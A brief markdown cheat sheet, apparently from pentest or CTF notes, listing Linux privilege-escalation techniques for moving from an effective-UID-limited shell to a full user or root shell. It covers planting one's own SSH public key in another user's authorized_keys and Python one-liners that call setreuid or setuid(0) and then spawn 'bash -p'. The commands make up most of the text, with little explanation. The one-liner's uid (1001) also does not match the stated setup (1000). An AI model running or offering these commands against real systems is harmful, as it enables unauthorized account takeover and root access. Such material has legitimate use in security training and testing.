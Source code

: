 # Techniques to Escape EUID Limited Shell to UID Shell

## For normal euid
## ===============

1) using public key authentication technique to escape

-check the .ssh if we have write permission on authorized_keys

-write our own public key into the authorized_keys file

-ssh into the user with our own private key

//notes: the public/private key can be generated using ssh-keygen

2) using python to setreuid to escape

current setup
-------------
euid user: 1000(Eve)

uid user: 33 (www-data)

rough idea how it works executing step by step:

$python

\>\>import os

\>\>os.setreuid(1000,1000)	#setreuid(ruid,euid)

\>\>os.system("/bin/bash -p")

one line command:
>python -c 'import os;os.setreuid(1001,1001);os.system("/bin/bash -p")'

## For root euid
## =============
1) can use the normal euid user technique
2) use python to setuid & escape EUID limited shell

rough idea how it works executing step by step:

#python

\>\>import os

\>\>os.setuid(0)

\>\>os.system("/bin/bash -p")

one line command:
>python -c 'import os;os.setuid(0);os.system("/bin/bash -p")'

